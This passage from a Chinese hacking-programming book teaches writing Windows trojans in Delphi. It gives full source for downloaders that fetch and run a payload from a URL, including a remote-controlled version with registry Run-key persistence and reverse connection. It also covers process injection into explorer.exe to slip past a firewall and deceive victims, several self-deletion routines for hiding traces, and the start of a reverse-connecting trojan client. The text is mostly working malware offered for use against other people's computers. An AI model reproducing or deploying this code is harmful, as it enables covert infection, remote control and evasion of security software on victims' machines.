这时，就会弹出一个确认对话框，点击“YES”按钮，表示确认删除单元文件，如图 5.22。如果保存整个工程的话，就可以在保存的目录下看到是没有 DFM 文件的，这也就是为什么可以编写小体积程序的缘故，因为 DELPHI 中一个窗口占用了很大的文件体积，删除掉，自然也就会“瘦身”了，如图 5.23。

工程下没有了编辑窗口，为了进入到代码编辑窗口，就要选择“VIEW”菜单下的“UNITS”，如图 5.24，就会弹出单元查看对话框，选择其中的 PROJECT1，然后点击确定按钮，如图 5.25，此时就可以进入到代码编辑窗口了，如图 5.26。默认生成的工程代码如下：

图 5.25

```pascal
program Project2;

uses
  Forms;

{$R *.res}

begin
  Application.Initialize;
  Application.Run;
end.
```

图 5.26

要编写下载者，需要使用到两个库文件，一个是 URLMON，一个是 SHELLAPI 库，分别实现调用其中的 URLDownloadToFile 下载函数和 ShellExecute 执行函数，如图 5.27。

在引用了库文件之后，就可以开始调用其中的函数进行下载和运行操作了，代码如下：

```pascal
program Project1;

uses
  urlmon, shellapi;
  // URLDownloadToFile 下载函数
  // ShellExecute 执行函数

begin
  URLDownloadToFile(nil, PChar('http://127.0.0.1/mm.exe'), PChar('c:\mm.exe'), 0, nil);
  // 下载文件
  ShellExecute(0, 'open', 'c:\mm.exe', nil, nil, 0);
  // 执行文件
end.
```

### 5.3.3 程序运行

现在来生成 EXE 文件，可以看到这个文件的体积只有 8.5KB，只要对方运行了这个程序，那么程序就会自动下载文件并且运行了，如图 5.28。

## 5.4 下载者——控制台版

本小节我们介绍如何使用 DELPHI 编写控制台下的下载者程序，各位读者通过对本节内容的学习就可以部分掌握控制台程序的编写。

### 5.4.1 原理分析

在 CMD 环境下运行的程序就是 16 位的控制台程序，比如小菜们非常熟悉的 NET 命令，在系统目录中就对应着一个 NET.EXE 文件，这个 NET.EXE 文件就是一个控制台程序，如图 5.29。我们将要介绍的就是使用 DELPHI 编写 32 位的控制台程序，和 16 位控制台程序的不同在于，32 位的控制台程序可以在 WINDOWS 环境下被执行，也就是说可以脱离 CMD 命令提示符来执行相关操作。

### 5.4.2 程序编写

要在 DELPHI 中进行控制台程序的编写，就要先选择“File”菜单下“New”菜单中的“Other”，如图 5.30。在弹出的“New Items”对话框中找到“Console Application”，也就是控制台程序，然后点击 OK 按钮，如图 5.31。

这时，就会自动来到代码编辑窗口，并且生成一些默认的代码，如图 5.32。其中默认生成的代码如下，其中编译器命令 `{$APPTYPE CONSOLE}` 表示这是一个控制台程序。

```pascal
program Project2;

{$APPTYPE CONSOLE}

uses
  SysUtils;

begin
  { TODO -oUser -cConsole Main : Insert code here }
end.
```

要编写控制台下的下载者程序，就得引用相关的库文件，添加需要用到的库文件，也就是一个下载库和执行的库，如图 5.33。

除了没有窗口界面供人家编辑外，编写控制台程序和编写正常的 WINDOWS 程序的流程基本相同，最后编写好的代码如下：

```pascal
program Project2;

{$APPTYPE CONSOLE}

uses
  SysUtils,
  urlmon,
  shellapi;
// URLDownloadToFile 下载函数
// ShellExecute 执行函数

var
  a: string;

begin
  URLDownloadToFile(nil, PChar('http://127.0.0.1/mm.exe'), PChar('c:\mm.exe'), 0, nil);
  // 下载文件
  ShellExecute(0, 'open', 'c:\mm.exe', nil, nil, 0);
  // 执行文件
end.
```

### 5.4.3 程序运行

按 F9 运行程序，程序会先弹出命令行窗口，然后下载和运行网络上的木马，最后命令行窗口退出，如图 5.34。

## 5.5 下载者——远控版

最后，我们再来介绍如何编写一个 C/S 模式的下载者，C/S 模式的下载者也就是一方作为控制端发送一些命令，而另一方则作为被控制端接收获取到的指令，然后执行相关的操作。

### 5.5.1 原理分析

要实现 C/S 模式下载者的编写，就要使用 DELPHI 中的 ClientSocket 和 ServerSocket 组件，这两个组件实现了网络间的通信。这个下载者的执行流程为：服务端也就是 ServerSocket 组件打开一个端口进行监听，如果有连接，就把连接显示到列表框中，当连接建立后，就获取对方的 IP 地址和操作系统版本信息，最后就可以发送执行，要求被控制端执行下载等等操作。控制端在运行后，就开始不断尝试连接服务端，一旦连接成功，就首先获取本系统的版本信息，然后发送操作系统的版本信息给控制端，然后等待控制端的执行指令，一旦得到了指令，就执行相关的操作。

### 5.5.2 服务端代码编写

我们来编写被控制端的程序，新建一个工程，在工程的窗口中添加一个 ClientSocket 组件和一个 Timer 组件，如图 5.35。

图 5.35

程序在运行后，首先使用 `socket.SendText('os' + GetOSName(GetOSVersion));` 获取操作系统的版本信息，如果各位读者对这个自定义的函数无法理解，可以死记硬背下来，如果还记不住，可以让电脑把这个代码“记忆”下来保存到磁盘上，这样就可以把这个代码做成一个模块，以方便今后的调用了。同时，程序还自定义了一个过程 autorun，实现写注册表以达到自启动的目的。然后，在 ClientSocket1Read 事件中，也就是控制端发送来了控制指令时，使用 `order := socket.ReceiveText` 获取操作指令，然后执行下载等等操作。程序的全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, ExtCtrls, ScktComp, ShellAPI, UrlMon, IdBaseComponent,
  IdComponent, IdTCPConnection, IdTCPClient, IdHTTP, Unit2, Registry;

type
  TForm1 = class(TForm)
    ClientSocket1: TClientSocket;
    Timer1: TTimer;
    IdHTTP1: TIdHTTP;
    procedure ClientSocket1Error(Sender: TObject; Socket: TCustomWinSocket;
      ErrorEvent: TErrorEvent; var ErrorCode: Integer);
    procedure Timer1Timer(Sender: TObject);
    procedure ClientSocket1Connect(Sender: TObject;
      Socket: TCustomWinSocket);
    procedure ClientSocket1Disconnect(Sender: TObject;
      Socket: TCustomWinSocket);
    procedure ClientSocket1Read(Sender: TObject; Socket: TCustomWinSocket);
    procedure FormCreate(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
``````pascal
end;

var
  Form1: TForm1;

const
//=============================================== 手工添加
cOsUnknown      : Integer = -1;
cOsWin95        : Integer = 0;
cOsWin98        : Integer = 1;
cOsWin98SE      : Integer = 2;
cOsWinME        : Integer = 3;
cOsWinNT        : Integer = 4;
cOsWin2000      : Integer = 5;
cOsWhistler     : Integer = 6;
//===============================================

implementation

{$R *.dfm}

//=============================================== 获得操作系统版本
Function GetOSVersion: Integer;
Var
  osVerInfo: TOSVersionInfo;
  majorVer, minorVer: Integer;
Begin
  Result := cOsUnknown;
  osVerInfo.dwOSVersionInfoSize := SizeOf(TOSVersionInfo);
  If (GetVersionEx(osVerInfo)) Then Begin
    majorVer := osVerInfo.dwMajorVersion;
    minorVer := osVerInfo.dwMinorVersion;
    Case (osVerInfo.dwPlatformId) Of
      VER_PLATFORM_WIN32_NT: { Windows NT/2000 }
      Begin
        If (majorVer <= 4) Then
          Result := cOsWinNT
        Else
          If ((majorVer = 5) And (minorVer = 0)) Then
            Result := cOsWin2000
          Else
            If ((majorVer = 5) And (minorVer = 1)) Then
              Result := cOsWhistler
            Else
              Result := cOsUnknown;
      End;
      VER_PLATFORM_WIN32_WINDOWS: { Windows 9x/ME }
      Begin
        If ((majorVer = 4) And (minorVer = 0)) Then
          Result := cOsWin95
        Else If ((majorVer = 4) And (minorVer = 10)) Then Begin
          If (osVerInfo.szCSDVersion[1] = 'A') Then
            Result := cOsWin98SE
          Else
            Result := cOsWin98;
        End Else If ((majorVer = 4) And (minorVer = 90)) Then
          Result := cOsWinME
        Else
          Result := cOsUnknown;
      End;
    Else
      Result := cOsUnknown;
    End;
  End Else
    Result := cOsUnknown;
End;

Function GetOSName(OSCode: Integer): String;
Begin
  If (OSCode = cOsUnknown) Then
    Result := 'Microsoft Unknown'
  Else If (OSCode = cOsWin95) Then
    Result := 'Windows 95'
  Else If (OSCode = cOsWin98) Then
    Result := 'Windows 98'
  Else If (OSCode = cOsWin98SE) Then
    Result := 'Windows 98 SE'
  Else If (OSCode = cOsWinME) Then
    Result := 'Windows ME'
  Else If (OSCode = cOsWinNT) Then
    Result := 'Windows NT'
  Else If (OSCode = cOsWin2000) Then
    Result := 'Windows 2000 / NT 5'
  Else
    Result := 'Windows XP / Other';
End;

//==============================
procedure autorun;   // 写注册表来达到自动运行
var
  reg: TRegistry;
begin
  reg := TRegistry.Create;
  reg.RootKey := HKEY_LOCAL_MACHINE;
  reg.OpenKey('SOFTWARE\Microsoft\Windows\CurrentVersion\Run', true);
  reg.WriteString('tripper', ParamStr(0));
  reg.Free;
end;

//====================================
procedure TForm1.ClientSocket1Error(Sender: TObject;    // 如果 SOCKET 出错
  Socket: TCustomWinSocket; ErrorEvent: TErrorEvent;
  var ErrorCode: Integer);
begin
  ErrorCode := 0;    // 让 ClientSocket 不至于报错
end;

//====================================
procedure TForm1.Timer1Timer(Sender: TObject);
var
  host1: string;
  port1: integer;
begin
  // 注意，Timer1 的 Interval 属性要设置为大于 1000，否则可能多次请求连接控制端
  host1 := Form1.Caption;                     // 编程测试版
  port1 := 8888;

  ClientSocket1.Active := false;
  ClientSocket1.Host := host1;
  ClientSocket1.Port := port1;
  ClientSocket1.Active := true;
end;

//====================================
procedure TForm1.ClientSocket1Connect(Sender: TObject;
  Socket: TCustomWinSocket);
begin
  Timer1.Enabled := false;   // 如果连接成功，就不再尝试连接
  Socket.SendText('os ' + GetOSName(GetOSVersion));   // 发送系统版本
end;

//====================================
procedure TForm1.ClientSocket1Disconnect(Sender: TObject;
  Socket: TCustomWinSocket);
begin
  Timer1.Enabled := true;    // 如果没有连接，就重新尝试连接
end;

//====================================
procedure TForm1.ClientSocket1Read(Sender: TObject;
  Socket: TCustomWinSocket);
var
  order: string;
  url, msg: string;
begin
  order := Socket.ReceiveText;
  if Copy(order, 1, 4) = 'down' then // 下载
  begin
    url := Copy(order, 5, Length(order)); // 得到要下载的木马地址
    UrlDownloadToFile(nil, PChar(url), PChar('c:\mm.exe'), 0, nil); // 把木马下载到 C 盘，然后运行
    ShellExecute(0, 'open', PChar('c:\mm.exe'), nil, nil, SW_NORMAL);
  end;
end;

//==============================
procedure TForm1.FormCreate(Sender: TObject);
begin
  Form1.Caption := '127.0.0.1'; // 在这里可以设置反弹连接的 IP 地址
  autorun; // 调用 AUTORUN 过程，达到自启动的目的
end;

end;
```

### 5.5.3 控制端程序的编写

对于控制端程序，主要用到了 SERVERSOCKET 进行通信，我们添加一个 SERVERSOCKET，并且添加和摆放好其它的组件，程序最后的界面如图 5.36 所示。

程序首先设置 ServerSocket1 的 Port 属性，然后使用 `ServerSocket1.Active:=true` 方法来使端口得到监听操作，然后在 “ServerSocket1ClientRead” 事件中，也就是控制端接收系统信息的事件中，使用 `s:=socket.ReceiveText` 获取对方发送来的信息，信息的格式为 “OS+操作系统信息”，因此我们需要使用 `copy(s,1,2)='os'` 来分割出操作系统的具体版本信息，最后等待被控制端的连接操作，如果连接建立了，就可以通过 `ServerSocket1.Socket.Connections[ListView1.Selected.Index].SendText('down'+Edit4.Text);` 来发送指令了，指令的格式为 “DOWN+木马的网络地址”，程序最终的代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes,
  Graphics, Controls, Forms,
  Dialogs, ScktComp, StdCtrls, ComCtrls;

type
  TForm1 = class(TForm)
    ListView1: TListView;
    ServerSocket1: TServerSocket;
    Label1: TLabel;
    ListBox1: TListBox;
    GroupBox1: TGroupBox;
    Label2: TLabel;
    Label3: TLabel;
    Button1: TButton;
    Edit1: TEdit;
    Edit4: TEdit;
    Button3: TButton;
    Button2: TButton;
    procedure Button1Click(Sender: TObject);
    procedure ServerSocket1ClientDisconnect(Sender: TObject;
      Socket: TCustomWinSocket);
    procedure Button3Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
    procedure ServerSocket1ClientRead(Sender: TObject;
      Socket: TCustomWinSocket);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  if Length(Edit1.Text) = 0 then Exit; // 如果没有输入反弹端口，就自动退出
  ServerSocket1.Active := false;       // 首先关闭 ServerSocket
  ServerSocket1.Port := StrToInt(Edit1.Text); // 要转换为整数类型
  ServerSocket1.Active := true;
  ListView1.Clear;
  Button1.Enabled := false;
  ShowMessage('监听端口：' + Edit1.Text + ' 成功！');
end;

procedure TForm1.ServerSocket1ClientDisconnect(Sender: TObject;
  Socket: TCustomWinSocket);
var
  i: integer;
begin
  for i := 0 to ListView1.Items.Count - 1 do
  begin
    if Socket.RemoteAddress = ListView1.Items.Item[i].Caption then
    begin
      ListBox1.Items.Add('有主机下线：' + Socket.RemoteAddress);
      ListView1.Items.Item[i].Delete;    // 删除下线主机
      Exit;
    end;
  end;
end;

procedure TForm1.Button3Click(Sender: TObject);
begin
  try
    ServerSocket1.Socket.Connections[ListView1.Selected.Index].SendText('down:' + Edit4.Text);
  except
    ShowMessage('发送指令出错，可能是你没有选择对方主机！');
  end;
end;

procedure TForm1.Button2Click(Sender: TObject);
begin
  ServerSocket1.Active := false;
  Button1.Enabled := true;
  ListView1.Clear;
end;

procedure TForm1.ServerSocket1ClientRead(Sender: TObject;
  Socket: TCustomWinSocket);
var
  a: TListItem;
  s, os: string;
begin
  s := Socket.ReceiveText;
  if Copy(s, 1, 2) = 'os' then
  begin
    os := Copy(s, 3, Length(s));    // 得到操作系统
    a := ListView1.Items.Add;
    a.Caption := Socket.RemoteAddress;
    a.SubItems.Add(os);
    ListBox1.Items.Add('有主机上线：' + Socket.RemoteAddress);
  end;
end;
```


图 5.36


### 5.5.4 程序运行

在两个工程中全部使用 F9 来运行程序，在控制端程序中点击“监听”按钮，程序开始监听连接，在连接成功后，就可以点击“下载木马”按钮，对木马文件进行下载操作了，如图 5.37。

同时我们也可以看到服务端程序实现了写注册表启动项从而达到自动运行的目的，这样每次开启这个服务端程序时就会自动运行，我们就可以牢牢地握住肉鸡了，如图 5.38。

## 5.6 下载者的穿墙技术研究

各种下载者木马的流行也使得杀毒软件和防火墙增加了戒备心理，因此穿透防火墙就成为了一个下载者的必备基本功；本小节我们主要介绍如何使用 DELPHI 来开发穿透防火墙的下载者程序。


图 5.39

### 5.6.1 程序编写

打开我们的 DELPHI 编译器，选择 “File” 菜单下 “New” 中的 “Application” 应用程序，如图 5.39。但是使用这个 APPLICATION 框架来编写下载者，其最大的缺点就是程序体积非常大，大概有 300 多 KB。因此，我介绍一种方法，用于实现在 APPLICATION 框架中编写小体积的程序。


图 5.40

首先在 DELPHI 的工具栏上面找到减号按钮，然后点击它，如图 5.40，在弹出的 “移除” 对话框中选择 UNIT1，然后点击 OK 按钮，如图 5.41。


图 5.41

按下 CTRL+F12 组合键（用于弹出 “查看单元” 窗口），选择 PROJECT1 单元，然后点击 OK 按钮，就可以进入到代码编辑窗口，否则在工程中是没有代码编辑窗口的，如图 5.42。


图 5.42

此时，在代码编辑窗口中的代码如下，如果现在生成 EXE 文件的话，文件大小还是 300 多 KB，几乎没有变化。我们需要删除掉引用的 Forms 单元，然后删除 “Application.Initialize;” 和 “Application.Run;” 这两句，如图 5.43。

```pascal
program Project2;

uses
  Forms;

{$R *.res}

begin
  Application.Initialize;
  Application.Run;
end.
```

也就是让程序只剩下如下代码，此时再生成一个空的 EXE 程序时，文件就只有 8KB 大小了，如图 5.44。


图 5.44


图 5.43

```pascal
program Project2;

uses
  Windows;

{$R *.res}

begin
end.
```接下来我们编写一个下载函数 Main，具体使用到了 API 函数 URLDownloadToFile 下载网络文件，然后使用 WinExec 来执行下载后的木马。这里会使用到 URLMON 单元文件（包含了 URLDownloadToFile 函数），也就是需要在 USES 语句后面添加 URLMON。

我再介绍一个 Inject 函数，它可以用来实现注入下载者的进程到 EXPLORER.EXE 中，也就是注入到“桌面”程序进程中。也就是说，把下载的这段代码放置到 EXPLORER.EXE 进程中，然后通过 EXPLORER.EXE 进程来执行下载功能。这个函数有两个参数，一个是目标进程的句柄，一个是要注入的函数地址。目标进程这个句柄通过 OpenProcess 可以得到，而函数地址可以使用 @Main 得到。

其中，还有一个地方需要注意，就是需要加入“{$IMAGEBASE $12120000}”这句，这句的功能就是修改本程序的镜像地址，如果不修改下载者的镜像基址，那么在注入下载者功能代码的时候就有可能会覆盖掉 EXPLORER.EXE 进程的相关代码，这样就会带来程序的崩溃。全部的程序代码如下：

```pascal
program Project1;

{$IMAGEBASE $12120000} // 换个镜像基址，这里是必须的，否则容易覆盖 EXPLORER 的进程信息

//==============================================
uses
  Windows, UrlMon, Dialogs;
  // Windows 是一定要的

//==============================================
function Main(dwEntryPoint: Pointer): LongWord; stdcall;
begin
  URLDownloadToFile(nil, 'http://127.0.0.1/mm.exe', 'C:\mm.exe', 0, nil);
  WinExec('C:\mm.exe', SW_SHOW);
  ShowMessage('1：注入 EXPLORER.EXE。2：完成下载功能！');
  Result := 0;
end;

//==============================================
procedure Inject(ProcessHandle: LongWord; EntryPoint: Pointer);
var
  Module, NewModule: Pointer;
  Size, BytesWritten, TID: LongWord;
begin
  Module := Pointer(GetModuleHandle(nil));
  Size := PImageOptionalHeader(Pointer(Integer(Module) + PImageDosHeader(Module)._lfanew + SizeOf(DWord) + SizeOf(TImageFileHeader))).SizeOfImage;
  VirtualFreeEx(ProcessHandle, Module, 0, MEM_RELEASE);
  NewModule := VirtualAllocEx(ProcessHandle, Module, Size, MEM_COMMIT or MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ProcessHandle, NewModule, Module, Size, BytesWritten);
  CreateRemoteThread(ProcessHandle, nil, 0, EntryPoint, Module, 0, TID);
end;

//==============================================
var
  PID, ProcessHandle: LongWord;
begin
  GetWindowThreadProcessId(FindWindow('Shell_TrayWnd', nil), @PID);
  ProcessHandle := OpenProcess(PROCESS_ALL_ACCESS, False, PID);
  Inject(ProcessHandle, @Main); // 注入下载功能代码，也就是通过 explorer.exe 的进程连接网络。
  CloseHandle(ProcessHandle);
end.
```

我为了显示下载者的下载和执行木马的运行过程，使用到了一个 ShowMessage 函数，并且使用了 Dialogs 单元文件（里面有 ShowMessage 函数定义），读者朋友们在实际编写下载者的过程中，可以删除掉 Dialogs 单元和 ShowMessage 函数，以减小文件的体积。

### 5.6.2 测试一般的下载者

我们在天网防火墙下来测试一个一般的下载者程序，程序界面如图 5.45 所示。程序代码很简单，就是在按钮的单击事件中下载并且运行一个木马文件，代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, UrlMon, StdCtrls;  // 增加一个 UrlMon

type
  TForm1 = class(TForm)
    Button1: TButton;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  URLDownloadToFile(nil, 'http://127.0.0.1/mm.exe', 'C:\mm.exe', 0, nil);
  WinExec('C:\mm.exe', SW_SHOW);
end;

end.
```


按 F9 运行这个一般的下载者程序，可以看到天网防火墙马上弹出了拦截信息，稍微有些安全意识的电脑用户都会选择“禁止”来禁止我们的下载者访问网络，这样我们辛苦编写的下载者就没有任何作用了，如图 5.46。

### 5.6.3 测试可穿墙的下载者

在前面的小节中，当我们编写完可穿墙的下载者后，就可以生成 EXE 文件了，此时运行生成的下载者程序，天网防火墙就会弹出一个提示，如图 5.47，可以看到请求访问网络的程序是 EXPLORER.EXE，这样就欺骗了受害者，因为谁也想不到 EXPLORER.EXE 就是我们的下载者。

我们只要修改 EXPLORER.EXE 进程为 IEXPLORE.EXE，那么下载者的自身穿墙功能就完全释放出来了，因为 IEXPLORE.EXE 在天网防火墙中几乎默认就是允许访问网络的，我们的下载者注入到 IEXPLORE.EXE 就可以在天网防火墙的眼皮底下大摇大摆地下载和运行木马了。


图 5.46

## 5.7 下载者的自删除技术汇总

下载者的服务端程序为了保护自身，往往在对方运行了程序后就会采取“自杀”的行为以达到隐藏自身的目的，本节我们就来讨论一下如何使用 DELPHI 实现下载者的自删除技术。

首先，在窗体上添加三个按钮，如图 5.48，然后在按钮 1 的事件中输入如下的代码：


图 5.47

```delphi
procedure TForm1.Button1Click(Sender: TObject);
begin
  WinExec(PChar('cmd /c erase /F ' + GetCommandLine), 0);
  ExitProcess(0);
end;
```

按 F9 运行程序，点击按钮 1 就可以实现程序的自删除了，程序其实是调用了 CMD 下面的 ERASE 删除命令来实现的自删除，我们再输入如下的代码：

```delphi
procedure TForm1.Button2Click(Sender: TObject);
begin
  DeleteMe;
  Close;
end;

procedure TForm1.Button3Click(Sender: TObject);
begin
  Suicide;
  Close;
end;
```


图 5.48

其中，在按钮 2 中调用了 DeleteMe 过程，它的自删除原理是使用文件读写函数写入一个批处理文件，来实现删除下载者和批处理文件自身；而在按钮 3 中，则调用了自定义的 Suicide 函数，它的原理是模块删除技术。程序的全部代码如下：

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, ShellAPI, ShlObj;
  // ShellAPI, ShlObj 使用 CMD 删除，必须添加

type
  TForm1 = class(TForm)
    Button1: TButton;
    Button2: TButton;
    Button3: TButton;
    Label1: TLabel;
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
    procedure Button3Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

// ------------------------------ 自删除的过程
procedure DeleteMe;
var
  BatchFile: TextFile;
  BatchFileName: string;
  ProcessInfo: TProcessInformation;
  StartUpInfo: TStartupInfo;
begin
  BatchFileName := ExtractFilePath(ParamStr(0)) + '_deleteme.bat';
  AssignFile(BatchFile, BatchFileName);
  Rewrite(BatchFile);

  Writeln(BatchFile, ':try');
  Writeln(BatchFile, 'del "' + ParamStr(0) + '"');
  Writeln(BatchFile, 'if exist "' + ParamStr(0) + '" goto try');
  Writeln(BatchFile, 'del %0');
  CloseFile(BatchFile);

  FillChar(StartUpInfo, SizeOf(StartUpInfo), $00);
  StartUpInfo.dwFlags := STARTF_USESHOWWINDOW;
  StartUpInfo.wShowWindow := SW_HIDE;
  if CreateProcess(nil, PChar(BatchFileName), nil, nil,
    False, IDLE_PRIORITY_CLASS, nil, nil, StartUpInfo,
    ProcessInfo) then
  begin
    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
  end;
end;

//—————————————————————————————— CMD 删除
function Suicide: Boolean;
var
  sei: TShellExecuteInfo;
  szModule: PChar;
  szComspec: PChar;
  szParams: PChar;
begin
  szModule := AllocMem(MAX_PATH);
  szComspec := AllocMem(MAX_PATH);
  szParams := AllocMem(MAX_PATH);

  // get file path names
  if ((GetModuleFileName(0, szModule, MAX_PATH) <> 0) and
      (GetShortPathName(szModule, szModule, MAX_PATH) <> 0) and
      (GetEnvironmentVariable('COMSPEC', szComspec, MAX_PATH) <> 0)) then
  begin
    // set command shell parameters
    lstrcpy(szParams, '/c del ');
    lstrcat(szParams, szModule);

    // set struct members
    sei.cbSize := SizeOf(sei);
    sei.Wnd := 0;
    sei.lpVerb := 'Open';
    sei.lpFile := szComspec;
    sei.lpParameters := szParams;
    sei.lpDirectory := 0;
    sei.nShow := SW_HIDE;
    sei.fMask := SEE_MASK_NOCLOSEPROCESS;

    // invoke command shell
    if (ShellExecuteEx(@sei)) then
    begin
      // suppress command shell process until program exits.
      SetPriorityClass(sei.hProcess, HIGH_PRIORITY_CLASS); // IDLE_PRIORITY_CLASS);
      SetPriorityClass(GetCurrentProcess(), REALTIME_PRIORITY_CLASS);
      SetThreadPriority(GetCurrentThread(), THREAD_PRIORITY_TIME_CRITICAL);

      // notify explorer shell of deletion
      SHChangeNotify(SHCNE_DELETE, SHCNF_PATH, szModule, nil);

      Result := True;
    end
    else
      Result := False;
  end
  else
    Result := False;
end;

//------------------------------------------------------------
procedure TForm1.Button1Click(Sender: TObject);
begin
  WinExec(PChar('cmd /c erase /F ' + GetCommandLine), 0);
  ExitProcess(0);
end;

//------------------------------------------------------------
procedure TForm1.Button2Click(Sender: TObject);
begin
  DeleteMe;
  Close;
end;

//------------------------------------------------------------
procedure TForm1.Button3Click(Sender: TObject);
begin
  Suicide;
  Close;
end;
//------------------------------------------------------------

end.
```

最后，我们生成 EXE 程序，程序界面如图 5.49 所示，只要点击其中任何一个按钮就可以实现程序的自删除了。


## 5.8 小结

在本章内容中详细介绍了下载者的各种编写技术，通过详细的描述，以及对下载者编写的逐层剖析，最终串联起了一大片相关知识，读者朋友们只要深入揣摩相关的实例，就一定能很快掌握 DELPHI 的编程技术。

# 第六章 菜鸟进阶之反弹木马编写

本书中所介绍的黑客编程技术对于普通的程序爱好者来说都是带有一种神秘的色彩，而这些技术更是那些普通的编程类图书所从未提及的，本章知识我们就从木马的反弹上线、配置、文件传输、键盘记录等技术开始着手，一个个地深入剖析，力求把反弹木马的编写全面地呈现在各位读者的面前。

## 6.1 木马的反弹上线

### 6.1.1 原理分析

程序使用到了 Socket 的两个 VCL 组件来实现反弹木马的上线，使用 ServerSocket 这个 VCL 组件来作为木马控制端，使用 ServerSocket 的 Port 属性设置本地的一个监听端口，然后使用 Active 属性来设置监听和放弃监听。木马的被控制端则使用 ClientSocket 这个 VCL 组件，使用这个组件的 Host 属性和 Port 属性可以连接 ServerSocket，在连接成功后，ClientSocket 组件就开始在数据到达事件中等待发送过来的控制指令，然后执行相关的操作。

在 ServerSocket 这个 VCL 组件中，实现发送数据可以使用 SendText 的方法，在 ClientSocket 中则可以使用它的 ReceiveText 方法来获取数据，然后根据不同的指令来执行不同的操作。

### 6.1.2 被控端程序的编写

首先来编写被控端程序，程序使用到了一个 ClientSocket 组件和一个 Timer 组件，因为是编写一个实现反弹连接的演示程序，为了测试和编写的方便，就没有对程序进行任何隐藏操作。

- 1. 在程序的载入事件中，开启 Timer 组件；
- 2. 在 Timer 组件中，不停地尝试连接控制端，如果连接成功就等待控制端发送过来的控制指令，否则就继续尝试连接；
- 3. 在获得了控制指令后，根据指令的不同进行相关的操作，如图 6.1。

程序代码如下：


图 6.1

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, ExtCtrls, ScktComp, shellapi, urlmon;

type
  TForm1 = class(TForm)
    ClientSocket1: TClientSocket;
    Timer1: TTimer;
    procedure ClientSocket1Error(Sender: TObject; Socket: TCustomWinSocket;
      ErrorEvent: TErrorEvent; var ErrorCode: Integer);
    procedure Timer1Timer(Sender: TObject);
    procedure ClientSocket1Connect(Sender: TObject;
      Socket: TCustomWinSocket);
    procedure ClientSocket1Disconnect(Sender: TObject;
      Socket: TCustomWinSocket);
    procedure ClientSocket1Read(Sender: TObject; Socket: TCustomWinSocket);
    procedure FormCreate(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.ClientSocket1Error(Sender: TObject;
    Socket: TCustomWinSocket; ErrorEvent: TErrorEvent;
    var ErrorCode: Integer);
begin
  ErrorCode := 0;  // 让 ClientSocket 不至于报错
end;

procedure TForm1.Timer1Timer(Sender: TObject);
var
  host1: string;
  port1: integer;
begin
  // 注意，Timer1 的 Interval 属性要设置为大于 1000，否则可能会多次请求连接控制端
  host1 := '127.0.0.1';  // 编程测试版
  port1 := 8888;

  ClientSocket1.Active := False;
  ClientSocket1.Host := host1;
  ClientSocket1.Port := port1;
  ClientSocket1.Active := True;
end;

procedure TForm1.ClientSocket1Connect(Sender: TObject;
    Socket: TCustomWinSocket);
begin
  Timer1.Enabled := False;  // 如果连接成功，就不再尝试连接
end;

procedure TForm1.ClientSocket1Disconnect(Sender: TObject;
    Socket: TCustomWinSocket);
begin
  Timer1.Enabled := True;  // 如果没有连接，就重新尝试连接
end;

procedure TForm1.ClientSocket1Read(Sender: TObject;
  Socket: TCustomWinSocket);
var
  order: string;
  url, msg: string;
begin
  order := Socket.ReceiveText;  // 获取控制端发送过来的操作指令
  if Copy(order, 1, 4) = 'hide' then
  begin
    ShowWindow(FindWindow(PChar('Progman'), nil), SW_HIDE);  // 隐藏桌面
  end;

  if Copy(order, 1, 4) = 'show' then
  begin
    ShowWindow(FindWindow(PChar('Progman'), nil), SW_SHOW);  // 显示桌面
  end;
end;

procedure TForm1.FormCreate(Sender: TObject);
begin
  // 在编程测试过程中省略下面这句，以方便测试。
  // Form1.Visible := False;
end;

end.
```

程序编写完毕后，按 F9 就可以运行和生成 EXE 程序了。

### 6.1.3 控制端程序的编写

接下来开始编写控制端程序，控制端使用到了 ServerSocket 组件，通过它来实现对指定端口的监听操作。程序除使用到了一个 ServerSocket 组件外，还用到了一个 ListView 组件（用来显示连接成功的主机）、一个编辑框组件和三个按钮组件。摆放好各个 VCL 组件后，就可以编写代码了，如图 6.2。

这里具体发送的指令有两个，一个是隐藏桌面的指令，为“hide”，一个是显示桌面的指令，为“show”。整个控制端程序的代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes,
  Graphics, Controls, Forms,
  Dialogs, ScktComp, StdCtrls, ComCtrls;

type
  TForm1 = class(TForm)
    ListView1: TListView;
    Button1: TButton;
    ServerSocket1: TServerSocket;
    Edit1: TEdit;
    Label1: TLabel;
    Label3: TLabel;
    GroupBox1: TGroupBox;
    Button3: TButton;
    Button2: TButton;
    procedure Button1Click(Sender: TObject);
    procedure ServerSocket1ClientConnect(Sender: TObject;
      Socket: TCustomWinSocket);
    procedure ServerSocket1ClientDisconnect(Sender: TObject;
      Socket: TCustomWinSocket);
    procedure Button3Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  ServerSocket1.Active := False;   // 首先关闭 ServerSocket
